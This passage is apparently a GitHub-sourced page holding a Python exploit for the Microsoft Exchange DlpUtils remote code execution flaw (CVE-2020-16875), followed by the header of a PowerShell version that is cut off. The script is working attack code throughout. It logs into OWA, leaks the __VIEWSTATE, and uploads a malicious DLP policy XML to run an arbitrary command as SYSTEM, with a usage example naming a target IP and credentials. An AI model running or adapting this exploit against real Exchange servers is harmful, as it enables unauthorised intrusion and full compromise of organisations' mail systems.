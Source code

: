          </commandBlock>
        </policyCommands>
        <policyCommandsResources></policyCommandsResources>
      </dlpPolicyTemplate>
    </dlpPolicyTemplates>""" % c


    def trigger_rce(t, s, vs, cmd):
        f = {
            '__VIEWSTATE': (None, vs),
            'ctl00$ResultPanePlaceHolder$senderBtn': (None, "ResultPanePlaceHolder_ButtonsPanel_btnNext"),
            'ctl00$ResultPanePlaceHolder$contentContainer$name': (None, random_string()),
            'ctl00$ResultPanePlaceHolder$contentContainer$upldCtrl': ("dlprce.xml", get_xml(cmd)),
        }
        r = s.post("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, files=f, verify=False)
        assert r.status_code == 200, "(-) failed to trigger rce!"


    def leak_viewstate(t, s):
        r = s.get("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, verify=False)
        match = re.search("<input type=\"hidden\" name=\"__VIEWSTATE\" id=\"__VIEWSTATE\" value=\"(.*)\" />", r.text)
        assert match != None, "(-) couldn't leak the __viewstate!"
        return match.group(1)


    def log_in(t, usr, pwd):
        s = requests.Session()
        d = {
            "destination": "https://%s/owa" % t,
            "flags": "",
            "username": usr,
            "password": pwd
        }
        s.post("https://%s/owa/auth.owa" % t, data=d, verify=False)
        assert s.cookies.get(name='X-OWA-CANARY') != None, "(-) couldn't leak the csrf canary!"
        return s


    def main(t, usr, pwd, cmd):
        s = log_in(t, usr, pwd)
        print("(+) logged in as %s" % usr)
        vs = leak_viewstate(t, s)
        print("(+) found the __viewstate: %s" % vs)
        trigger_rce(t, s, vs, cmd)
        print("(+) executed %s as SYSTEM!" % cmd)


    if __name__ == '__main__':
        if len(sys.argv) != 4:
            print("(+) usage: %s <target> <user:pass> <cmd>" % sys.argv[0])
            print("(+) eg: %s 192.168.75.142 harrym@exchangedemo.com:user123### mspaint" % sys.argv[0])
            sys.exit(-1)
        trgt = sys.argv[1]
        assert ":" in sys.argv[2], "(-) you need a user and password!"
        usr = sys.argv[2].split(":")[0]
        pwd = sys.argv[2].split(":")[1]
        cmd = sys.argv[3]
        main(trgt, usr, pwd, cmd)
    powershell版本：
    # Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
    # Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875
    #